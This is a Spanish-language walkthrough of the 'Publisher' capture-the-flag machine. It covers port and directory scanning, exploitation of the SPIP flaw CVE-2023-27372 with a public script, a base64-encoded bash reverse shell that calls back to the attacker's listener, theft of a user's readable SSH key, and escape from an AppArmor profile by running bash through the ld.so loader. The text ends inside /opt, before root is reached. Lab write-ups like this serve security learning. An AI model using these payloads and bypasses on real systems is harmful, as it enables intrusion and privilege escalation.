<div align="center">
    
</div>

<div align="center">

# Publisher <!-- omit in toc -->
<!-- Fácil-#228B06 | Media-#BFA907 | Difícil-#A62100 -->


</div>

<br>

<div align="center">

| | |
|---|---|
| **Tags** | [ **CVE-2023-27372**, **Reverse Engineering**, **ld.so**, **ghidra** ] |

</div>

## Índice  <!-- omit in toc -->

- [Escaneos](#escaneos)
- [Investigación web](#investigación-web)
- [Shell con www-data](#shell-con-www-data)
- [Shell con think](#shell-con-think)
- [Shell con root](#shell-con-root)


### Escaneos

```shell
nmap -p- --open -sS --min-rate 5000 -Pn -n -vvv 10.113.181.36 -oG target.log
```

```log
# Nmap 7.95 scan initiated Tue Nov  3 10:49:22 2026 as: nmap -p- --open -sS --min-rate 5000 -Pn -n -vvv -oG target.log 10.113.181.36
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.113.181.36 ()	Status: Up
Host: 10.113.181.36 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
# Nmap done at Tue Nov  3 10:49:36 2026 -- 1 IP address (1 host up) scanned in 14.50 seconds
```

```shell
nmap -p22,80 -sV -sC 10.113.181.36 -oN openPorts.log
```

```log
# Nmap 7.95 scan initiated Tue Nov  3 10:49:56 2026 as: nmap -p22,80 -sV -sC -oN openPorts.log 10.113.181.36
Nmap scan report for publisher.thm (10.113.181.36)
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:42:d8:90:c1:46:8b:98:98:bd:02:9e:59:a8:08:9d (RSA)
|   256 99:bf:db:05:f6:f3:94:31:dd:ca:0f:df:ac:a1:30:42 (ECDSA)
|_  256 16:b3:c0:34:51:4e:2d:bd:4d:7f:fa:c6:e2:e5:ee:48 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Publisher's Pulse: SPIP Insights & Tips
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov  3 10:50:06 2026 -- 1 IP address (1 host up) scanned in 9.71 seconds
```

### Investigación web

Tras el escaneo de puertos, podemos notar que en el puerto 80 está corriendo un CMS llamado **SPIP**, lo podremos notar tanto por la publicidad en imagenes que hay por la página web como por los diferentes links que se llaman en las etiquetas '*anchor*' del código fuente. Un poco de información al respecto:

> [!NOTE]
>
> SPIP (*Système de Publication pour l'Internet Partagé* o *Sistema de publicación para una internet participativa*) es un sistema de gestión de contenidos (CMS) de código abierto, creado en Francia en 2001 por el colectivo *minirézo*.
> 
> Está especialmente diseñado para publicaciones periódicas, revistas en línea, sitios asociativos o institucionales, con una estructura basada en secciones, subsecciones, artículos y notas breves.

<br>

Esto nos podría dar un indicio a donde apuntar en cuanto a vulnerabilidades, me enfoco en buscar la versión para mayor precisión en la búsqueda de vulnerabilidades.

<div align="center">
    
    <br>
    <em>Inicio página web</em>
    <br><br>
    
    <br>
    <em>Código fuente - Inicio página web</em>
</div>

<br><br>

> [!WARNING]
> Debemos estar atentos con los enlaces que apuntan fuera del reto ya que muchos si son oficiales y la intrusión puede conllevar temas legales.
> 

<br>

Tras un poco de búsqueda por la página y el código fuente, decido hacer un escaneo con `ffuf` en búsqueda de otras rutas útiles y encontramos lo siguiente: 

```shell
ffuf -u 'http://publisher.thm/FUZZ' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -ic

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://publisher.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 2732ms]
                        [Status: 200, Size: 8686, Words: 1334, Lines: 151, Duration: 6788ms]
spip                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 102ms]
                        [Status: 200, Size: 8686, Words: 1334, Lines: 151, Duration: 75ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 273ms]
```

<br>

La ruta `/spip/` está disponible y es un poco más interna en el CMS. No es completamente oculta al público pero tampoco está expuesta en la página de inicio. También pude notar dos cosas adicionales: la primera es que en el enlace '*Plan du site*' (en español '*mapa del sitio*') un parámetro está llamando archivos internos, en este caso `?page=plan`, por otra parte tenemos un formulario de acceso en el enlace '*Se connecter*' (en español '*conectarse*') el cual nos lleva a un formulario de login. Si miramos en detalle el código fuente de la página del formulario encontraremos la versión actual del CMS. Tras buscar algunas vulnerabilidades documentadas para este CMS, logro encontrar el **CVE-2023-27372**, tiene varios exploits documentados, en este caso usaremos uno de Python que apunta al enlace de cambio de contraseña '*mot de passe oublie*' (en español '*contraseña olvidada*') disponible en 'Exploit-db' (`searchsploit`), vemos el funcionamiento del script y lo ejecutamos, tendremos que enviar una dirección email aleatoria para generar una solicitud e interceptarla con `Burpsuite`. El frontend retornará un error, pero hay que fijarnos en la respuesta cuando interceptamos con `Burpsuite`

> [!TIP]
> 
> https://www.exploit-db.com/exploits/51536
> 
> https://github.com/nuts7/CVE-2023-27372
> 

<br>

<div align="center">
    
    <br>
    <em>Ruta <strong>/spip/</strong></em>
    <br><br>
    
    <br>
    <em>Mapa del sitio</em>
    <br><br>
    
    <br>
    <em>Formulario de acceso</em>
    <br><br>
    
    <br>
    <em>Código fuente - Versión</em>
</div>

<br><br>

```shell
searchsploit -m 51536
❯ ./51536.py -u http://publisher.thm -c whoami -v
[-] Unable to find Anti-CSRF token
[+] Execute this payload : s:26:"<?php system('whoami'); ?>";
```

<br>

<div align="center">
    
    <br>
    <em>Burpsuite solicitud - respuesta</em>
    <br><br>
    
    <br>
    <em>Error del frontend</em>
</div>

<br><br>

### Shell con www-data

Tras muchos intentos de una Shell Reverse, el payload adecuado será el siguiente: 

```shell
❯ echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.137.54/4444 0>&1'" | base64
L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzcuNTQvNDQ0
NCAwPiYxJwo=
❯ ./51536.py -u http://publisher.thm -c 'echo L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzcuNTQvNDQ0NCAwPiYxJwo=|base64 -d|bash' -v
[-] Unable to find Anti-CSRF token
[+] Execute this payload : s:128:"<?php system('echo L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzcuNTQvNDQ0NCAwPiYxJwo=|base64 -d|bash'); ?>";
```

<br>

Tendremos una Shell Reverse

```shell
❯ nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.113.181.36 57568
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@41c976e507f8:/home/think/spip/spip$ whoami;id;groups;pwd
whoami;id;groups;pwd
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data
/home/think/spip/spip
www-data@41c976e507f8:/home/think/spip/spip$ 
```

<br>

### Shell con think

Perfecto, estamos dentro como **www-data*** y en el directorio del usuario **think**, si retrocedemos algunos directorios veremos que el directorio `.ssh/` está con permisos abiertos y dentro las llaves, pública y privada, disponibles con lectura para otros. Así que nos enviamos/copiamos la llave privada a nuestra máquina atacante e ingresamos como usuario **think** y obtenemos el primer flag 'user.txt'

> [!NOTE]
> Doy por hecho que conocemos la forma de enviar archivos o directorios via python3 o nc, así que saltaré la explicación de eso.
> 

```shell
think@ip-10-113-181-36:~$ whoami;id;groups;pwd
think
uid=1000(think) gid=1000(think) groups=1000(think)
think
/home/think
think@ip-10-113-181-36:~$ ls -la
total 48
drwxr-xr-x 8 think    think    4096 Feb 10  2024 .
drwxr-xr-x 4 root     root     4096 Nov  3 09:37 ..
lrwxrwxrwx 1 root     root        9 Jun 21  2023 .bash_history -> /dev/null
-rw-r--r-- 1 think    think     220 Nov 14  2023 .bash_logout
-rw-r--r-- 1 think    think    3771 Nov 14  2023 .bashrc
drwx------ 2 think    think    4096 Nov 14  2023 .cache
drwx------ 3 think    think    4096 Dec  8  2023 .config
drwx------ 3 think    think    4096 Feb 10  2024 .gnupg
drwxrwxr-x 3 think    think    4096 Jan 10  2024 .local
-rw-r--r-- 1 think    think     807 Nov 14  2023 .profile
lrwxrwxrwx 1 think    think       9 Feb 10  2024 .python_history -> /dev/null
drwxr-x--- 5 www-data www-data 4096 Dec 20  2023 spip
drwxr-xr-x 2 think    think    4096 Jan 10  2024 .ssh
-rw-r--r-- 1 root     root       35 Feb 10  2024 user.txt
lrwxrwxrwx 1 think    think       9 Feb 10  2024 .viminfo -> /dev/null
think@ip-10-113-181-36:~$ cat user.txt 
[REDACTED]
```

<br>

Como no tenemos la contraseña de este usuario, listamos los procesos que tengan el bit SUID:

```shell
think@ip-10-113-181-36:~$ find / -perm -4000 -type f 2>/dev/null
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pppd
/usr/sbin/run_container
/usr/bin/at
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/umount
```

<br>

Entre todos los listados hay uno muy interesante que es `/usr/sbin/run_container`.

```shell
think@ip-10-113-181-36:~$ file /usr/sbin/run_container 
/usr/sbin/run_container: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=de92d7f1ac0088bfa52908d5945bfb4fd8fd390e, for GNU/Linux 3.2.0, not stripped
think@ip-10-113-181-36:~$ ls -l /usr/sbin/run_container 
-rwsr-sr-x 1 root root 16760 Nov 14  2023 /usr/sbin/run_container
think@ip-10-113-181-36:~$ run_container
List of Docker containers:
ID: 41c976e507f8 | Name: jovial_hertz | Status: Up 3 hours

Enter the ID of the container or leave blank to create a new one: 
/opt/run_container.sh: line 16: validate_container_id: command not found

OPTIONS:
1) Start Container
2) Stop Container
3) Restart Container
4) Create Container
5) Quit
Choose an action for a container: 5
Exiting...
```

<br>

Si leemos un poco su contenido con `strings` encontraremos que está llamando a un script en la ruta `/opt/run_container.sh`

```shell
think@ip-10-113-181-36:~$ strings /usr/sbin/run_container | less
...
```

<div align="center">
    
    <br>
    <em><strong>strings</strong> en el binario <strong>run_container</strong></em>
    <br><br>
    
    <br>
    <em>Desmantelado con <strong>ghidra</strong></em>
</div>

<br><br>

### Shell con root

Podemos notar 2 cosas MUY interesantes en este binario: la primera es que está llamando a una shell `/bin/bash`; la segunda es que también está llamando a un script `/opt/run_container.sh`. Lo que me hace pensar que este binario podría ser un wrapper para ejecutar ese script que primero llama a una bash con el SUID de **root** y luego ejecuta el script ya que el mismo le pertenece a **root**:

```shell
think@ip-10-113-181-36:/usr/sbin$ ls -l /opt/run_container.sh
-rwxrwxrwx 1 root root 1715 Jan 10  2024 /opt/run_container.sh
```

<br>

Ahora empieza la curiosidad. Si intentamos escribir en el script en cuestión no tendremos permisos INCLUSO cuando el listado dice lo contrario, de hecho ni siquiera tendremos permisos de lectura sobre el directorio `/opt` cuando el listado TAMBIÉN dice lo contrario. Nótese que dice `-ash:`

```shell
think@ip-10-113-181-36:/$ echo "chmod s+x /bin/bash" >> /opt/run_container.sh
-ash: /opt/run_container.sh: Permission denied
think@ip-10-113-181-36:/$ ls -la /opt
ls: cannot open directory '/opt': Permission denied
```

<br>

Como no tenemos la contraseña de **think** para ver qué puede ejecutar en `sudoers` buscamos otra alternativa; listar con **linPEAS**, lo ejecutamos y encontraremos que `apparmor` está usando una shell `ash` como perfil y además el usuario **think** también la usa por defecto, de hecho, no aparece el usuario en el archivo `/etc/passwd` 

<div align="center">
    
    <br>
    <em><strong>AppArmor</strong> usando perfil <strong>/usr/sbin/ash</strong></em>
    <br><br>
    
    <br>
    <em>Procesos indican think usando <strong>ash</strong></em>
    <br><br>
    
    <br>
    <em>Confirmando shell <strong>ash</strong> de think</em>
</div>

<br><br>

```shell
think@ip-10-113-181-36:/usr/sbin$ grep -i '/bin/.*sh' /etc/passwd
root:x:0:0:root:/root:/usr/bin/bash
ubuntu:x:1001:1001:Ubuntu:/home/ubuntu:/bin/bash
```

<br>

Ahora todo empieza a tomar sentido en este punto, de hecho si leemos la directiva de `/etc/apparmor.d/usr.sbin.ash` veremos claramente el motivo que se contradigan los bits de lectura, `apparmor` tiene directivas "más potentes" en este caso, en el archivo podremos leer claramente la denegación de lectura al directorio `/opt` y todo su contenido. Un poco de teoría:

> [!TIP]
> Los permisos Unix (rwx) son un control de acceso discrecional: el propietario del archivo decide quién puede leer/escribir/ejecutar. Si tienes permiso según esos bits, el kernel permite el acceso.
>
> AppArmor es un control de acceso obligatorio (MAC): se aplica después de que los permisos Unix ya otorgaron permisos, como una capa extra que el administrador del sistema impone sin que el usuario o propietario del archivo pueda saltársela. No importa que quién sea dueño del archivo y tenga rwx completo — si el perfil de AppArmor dice deny, esa negación tiene prioridad.
>

<br>

```shell
think@ip-10-113-181-36:/etc/apparmor.d$ cat usr.sbin.ash
#include <tunables/global>

/usr/sbin/ash flags=(complain) {
  #include <abstractions/base>
  #include <abstractions/bash>
  #include <abstractions/consoles>
  #include <abstractions/nameservice>
  #include <abstractions/user-tmp>

  # Remove specific file path rules
  # Deny access to certain directories
  deny /opt/ r,
  deny /opt/** w,
  deny /tmp/** w,
  deny /dev/shm w,
  deny /var/tmp w,
  deny /home/** w,
  /usr/bin/** mrix,
  /usr/sbin/** mrix,

  # Simplified rule for accessing /home directory
  owner /home/** rix,
}
```

<br>

Entonces en este punto tenemos que evadir el uso de la sell `ash`, lo cual no basta con hacer `/bin/bash` ya que las directivas `/usr/bin/** mrix` y `/usr/sbin/** mrix` están indicando con la letra `i` (**inherit**, en español *heredar*) que herede los bits de `ash` por lo que, en este caso, podríamos llamar a `/bin/bash` a través del linker `/lib/x86_64-linux-gnu/ld-2.31.so` el cual no pertenece a ninguna directiva de la `ash` que estamos usando actualmente, el flujo sería: 

```shell
think@ip-10-113-181-36:~$ ls -l /usr/lib64/ld-linux-x86-64.so.2 
lrwxrwxrwx 1 root root 32 Jan 29  2025 /usr/lib64/ld-linux-x86-64.so.2 -> /lib/x86_64-linux-gnu/ld-2.31.so
think@ip-10-113-181-36:~$ ls -l /lib/x86_64-linux-gnu/ld-2.31.so
-rwxr-xr-x 1 root root 191504 Jan 29  2025 /lib/x86_64-linux-gnu/ld-2.31.so
think@ip-10-113-181-36:~$ /lib/x86_64-linux-gnu/ld-2.31.so /bin/bash
think@ip-10-113-181-36:~$ cd /opt
think@ip-10-113-181-36:/opt$ ls -la
total 20
drwxr-xr-x  3 root root 4096 Jan 10  2024 .
drwxr-xr-x 18 root root 4096 Nov  3 09:37 ..
drwx--x--x  4 root root 4096 Nov 14  2023 containerd
-rw-r--r--  1 root root  861 Dec  7  2023 dockerfile
-rwxrwxrwx  1 root root 1715 Jan 10  2024 run_container.sh
```

